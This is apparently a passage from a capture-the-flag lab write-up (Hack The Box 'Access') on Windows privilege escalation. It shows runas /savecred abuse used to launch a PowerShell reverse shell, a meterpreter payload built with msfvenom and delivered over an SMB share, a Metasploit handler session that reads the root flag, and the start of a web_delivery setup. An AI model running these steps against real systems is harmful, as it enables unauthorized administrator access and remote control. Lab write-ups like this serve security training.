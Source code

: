# Run with admin credentials
runas /user:ACCESS\administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\Invoke-PowerShellTcp.ps1"


##### MEth 2 : ok

First generate the exe with msfvenom.
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=12345 -f exe -o meter-rev-12345.exe

Next, spin up an smb server on kali pointed at the directory where the exe resides.
$ impacket-smbserver epi /root/htb/access

On target, simply copy the file from kali using a normal UNC path.
C:\Users\security> copy \\10.10.14.77\epi\meter-rev-12345.exe
copy \\10.10.14.77\epi\meter-rev-12345.exe
        1 file(s) copied.

Spin up a listener on kali.
$ msfconsole
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > set lport 12345
lport => 12345
msf5 exploit(multi/handler) > exploit -j

[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.77:12345


Finally, on target, use the cached credentials to execute the reverse shell.
C:\Users\security> runas /savecred /user:ACCESS\Administrator .\meter-rev-12345.exe

We’ll wrap it up with a quick demonstration of running powershell commands from meterpreter.
msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: ACCESS\Administrator
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_execute "get-content C:\users\administrator\desktop\root.txt 
[-] Parse error: Unmatched double quote: "powershell_execute \"get-content C:\\users\\administrator\\desktop\\root.txt "
meterpreter > powershell_execute "get-content C:\users\administrator\desktop\root.txt"
[+] Command execution completed:
6e1586cc7ab230a8d297e8f933d904cf


##### 3rd Method : use msf Webdelivery
$ msfconsole
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2               (powershell)
target => 2
msf5 exploit(multi/script/web_delivery) > set srvport 8081
srvport => 8081
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set lhost tun0
lhost => tun0
msf5 exploit(multi/script/web_delivery) > set lport 12345
lport => 12345